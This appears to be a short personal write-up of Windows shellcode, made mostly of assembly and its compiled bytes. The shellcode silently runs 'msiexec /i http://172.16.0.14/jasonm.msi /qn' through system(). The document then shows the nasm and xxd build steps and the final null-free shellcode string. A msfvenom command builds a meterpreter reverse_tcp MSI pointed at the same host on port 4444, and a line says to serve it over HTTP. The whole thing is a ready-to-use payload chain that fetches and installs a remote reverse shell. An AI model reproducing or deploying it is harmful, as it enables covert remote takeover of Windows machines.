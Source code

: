 https://web.archive.org/web/20120503030935/http://projectshellcode.com/?q=node/12
follow above tutorials to output shellcode or follow dudes write-up....I'm sure it works!


Following asm does this;

#msiexec /i http://172.16.0.14/jasonm.msi /qn


------------assembly starts---------------

BITS 32


global _start


_start:

			 ;determine LoadLibrary, ExitProcess & System via Arwin, or follow write-up
mov ebx, 0x777fde35      ;Address of function LoadLibraryA (win7)
call ebx
mov ebp, eax             ;msvcrt.dll is saved in ebp

xor eax, eax
PUSH eax
PUSH 0x6e712f20
PUSH 0x69736d2e
PUSH 0x6d6e6f73
PUSH 0x616a2f34
PUSH 0x312e302e
PUSH 0x36312e32
PUSH 0x37312f2f
PUSH 0x3a707474
PUSH 0x6820692f
PUSH 0x20636578
PUSH 0x6569736d
MOV EDI,ESP
PUSH EDI
MOV EAX, 0x768db177		;calling the system()
CALL EAX
xor eax, eax

push eax
mov eax, 0x7780be5a     ; ExitProcess
call eax

--------------assembly end----------------------------------

Save as msi.asm


xvz@xvz-PC ~
$ nasm -f win32 msi.asm -o msi.bin

xvz@xvz-PC ~
$ xxd -i msi.bin
unsigned char msi_bin[] = {
  0x4c, 0x01, 0x01, 0x00, 0x2e, 0x4c, 0x0f, 0x5f, 0x93, 0x00, 0x00, 0x00,
  0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78,
  0x74, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x57, 0x00, 0x00, 0x00, 0x3c, 0x00, 0x00, 0x00, 0x93, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x20, 0x00, 0x50, 0x60,
  0xbb, 0x35, 0xde, 0x7f, 0x77, 0xff, 0xd3, 0x89, 0xc5, 0x31, 0xc0, 0x50,
  0x68, 0x20, 0x2f, 0x71, 0x6e, 0x68, 0x2e, 0x6d, 0x73, 0x69, 0x68, 0x73,
  0x6f, 0x6e, 0x6d, 0x68, 0x34, 0x2f, 0x6a, 0x61, 0x68, 0x2e, 0x30, 0x2e,
  0x31, 0x68, 0x32, 0x2e, 0x31, 0x36, 0x68, 0x2f, 0x2f, 0x31, 0x37, 0x68,
  0x74, 0x74, 0x70, 0x3a, 0x68, 0x2f, 0x69, 0x20, 0x68, 0x68, 0x78, 0x65,
  0x63, 0x20, 0x68, 0x6d, 0x73, 0x69, 0x65, 0x89, 0xe7, 0x57, 0xb8, 0x77,
  0xb1, 0x8d, 0x76, 0xff, 0xd0, 0x31, 0xc0, 0x50, 0xb8, 0x5a, 0xbe, 0x80,
  0x77, 0xff, 0xd0, 0x2e, 0x66, 0x69, 0x6c, 0x65, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0xfe, 0xff, 0x00, 0x00, 0x67, 0x01, 0x6d, 0x73, 0x69,
  0x2e, 0x61, 0x73, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78, 0x74, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x03, 0x01, 0x57, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x2e, 0x61, 0x62, 0x73, 0x6f, 0x6c, 0x75, 0x74, 0x00,
  0x00, 0x00, 0x00, 0xff, 0xff, 0x00, 0x00, 0x03, 0x00, 0x40, 0x66, 0x65,
  0x61, 0x74, 0x2e, 0x30, 0x30, 0x01, 0x00, 0x00, 0x00, 0xff, 0xff, 0x00,
  0x00, 0x03, 0x00, 0x04, 0x00, 0x00, 0x00
};

# get rid of null bytes


xvz@xvz-PC ~
$ ./xxd-shellcode.sh msi.bin

"\xbb\x35\xde\x7f\x77\xff\xd3\x89\xc5\x31\xc0\x50\x68\x20\x2f\x71\x6e\x68\x2e\x6d\x73\x69\x68\x73\x6f\x6e\x6d\x68\x34\x2f\x6a\x61\x68\x2e\x30\x2e\x31\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x37\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x89\xe7\x57\xb8\x77\xb1\x8d\x76\xff\xd0\x31\xc0\x50\xb8\x5a\xbe\x80\x77\xff\xd0"

# add to script

# Create MSI
# msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=172.16.0.14 -f msi -o jasonm.msi

# Start web-server port 80
